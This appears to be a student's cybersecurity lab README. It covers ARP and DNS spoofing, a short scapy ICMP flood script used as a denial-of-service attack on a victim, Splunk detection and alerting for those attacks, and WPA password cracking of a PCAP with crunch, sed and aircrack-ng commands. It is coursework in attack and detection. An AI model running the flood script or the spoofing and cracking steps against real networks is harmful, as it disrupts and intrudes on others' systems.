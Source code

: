 # Midterm Revision

## Implementation of Arpspoof tool and Splunk SIEM Tool with cracking passwor

## Use the arpspoof tool to perform the following attacks [10 Marks] 
  ### a. Use ARP packets to perform the DNS spoofing attack. Whatever the website the user types, it should navigate to http://testphp.vulnweb.com/login.php as a part of the attack.



![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/7aa715a7-f962-44f0-97cc-f385e310c1a2)

Victim: 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/6bc5f582-d90e-4437-89a5-d24a3c943829)

Arp Spoof Started

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/20502860-fc28-4804-b4df-5574b945e6aa)

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/62716f88-d63d-40fe-afed-46705ce83537)

Dns Spoof Host

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/8986bd4a-d11a-48e5-bcae-b1766c17cf90)



  ### b. Use ICMP Packets to perform only DDOS attacks over the victim. 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/86edcb21-1696-4996-bd73-bc886422d8e8)

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/bac150a5-3d56-4bf6-87b2-89101e60a150)

```
from scapy.all import *

# Function to send ICMP packets
def send_icmp_packet(dst_ip):
    icmp_packet = IP(dst=dst_ip)/ICMP()
    send(icmp_packet, loop=True, verbose=False)

# Main function
def main():
    target_ip = input("Enter the target IP address: ")
    while True:
        send_icmp_packet(target_ip)

if __name__ == "__main__":
    main()
```

![WhatsApp Image 2024-03-17 at 10 45 34_8dd998e1](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/7fc8c409-f7fa-4623-8fb7-a0e62325bed1)


DDOS Attack is performed



## 2. Use Splunk to answer the following questions:
  ### a. Capture these above attacks using Splunk in an active or passive method. (10 Marks)

Passive Method for analysing the event

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/96ff1ae2-98f7-4f65-97ad-956fbe7bd15e)

  
  ### b. Identify and Analyse the Indicator of Compromise for the attack. (5 Marks)

- An Indicator of Compromise (IoC) is any piece of evidence or anomaly that suggests a network intrusion or security breach has occurred. IoCs can take various forms, including:
    - File Hashes: Hash values of known malicious files or executables found on systems.
    - IP Addresses: IP addresses associated with malicious activity, such as command and control servers or sources of malicious traffic.
    - Domain Names: Domain names linked to malicious activities, phishing campaigns, or hosting malicious content.
    - URLs: URLs used in phishing emails or websites hosting exploit kits or malware payloads.
    - File Paths: Unusual file paths or directories commonly used by malware for persistence or data exfiltration.
    - Network Traffic Patterns: Anomalous network traffic, such as unusual spikes in DNS queries, connections to known malicious IP addresses, or unexpected outbound traffic.
    - System Logs: Suspicious entries in system logs, including failed login attempts, privilege escalations, or unusual system activities.


For DNS Spoofing Attack IOC can be :
  - DNS Log Analysis and DNS Traffic Analysis
  - File Hash, Suspicious IP Address and anamoulous Login Activity


  
  ### c. Explore and create an Alert for similar attacks in the Future. (5 Marks)

- we should create an alert to monitor such type of events when encountered in future.

  
![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/d6a72533-bd5a-43ed-a1a0-6a95463274b6)

After Creating an alert 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/3b78d826-30f9-4b13-bcf3-16c310e404e4)

  - first selecting due to which incident the attack is generated
  - Select Monitoring tool
  - Create alerts.
  - Test the alerts
  - Fine- Tuning the alert
  - Document the alert rules which are craftes
  - Continuous Improvement.


## 3. Use the given PCAP file to analyse and answer the following questions:

  ### a. Decrypt the traffic by cracking the password using appropriate tools and techniques. It is a must to mention briefly your method of cracking the password in the documentation. [HINT: password length – 16, Capital letter – 2, numerals – 6, It is a repetition of the same word as [CyberCyber].[6 Marks]

First we have to create a word list with `Crunch` command 

`crunch 8 8 ,@@@@123 -o temp.txt`

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/fc706b18-c6de-4d33-8ce2-d03f2880b1cd)

`sed "s/^\(.\{8\}\)$/\1\1/" temp.txt > final.txt`

then we will make for 16 characters with concatination command 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/1483d82a-173b-49ec-8f8a-64de86e90157)

If we directly crack the password using the cap file it will show as unsupported file so we need to change the formate of the file with tcpdump tool
`tcpdump -r Downloads/midterm.cap -w output.pcap`

we have to crack password by using wordlist in `aircrack-ng tool`
`aircrack-ng output.pcap -w final.txt`

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/c8293b2b-a9aa-4c5c-99cf-81480c740b10)

Password Cracked: `Cisco123Cisco123`

  ### b. Analyse the decrypted traffic using tools to identify the malicious/suspicious activity recorded in the WLAN. [4 Marks]

Now we have to open Wireshark and add our password in keys to decypt the pcap file 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/c34c9bfd-61b1-4177-9ff1-c22dbeeb61e7)

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/dd34ea48-917f-4a50-a1fa-146c9933d8a7)

On Analyzing the pcap file, we can get to know that Voip call is made throgh Skinny Protocol and all details regarding the call are available in this pcap 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/4c571bf1-337d-49b6-8d31-4770dfc3dce3)

First Connection is established with Skinny Protocol then Communication is being performed RTP and at last connection is disabled

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/0a700cf5-0b81-4e30-985e-a38360ca6b5f)

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/2d425d52-d0ad-4e94-b561-9760d858cf32)

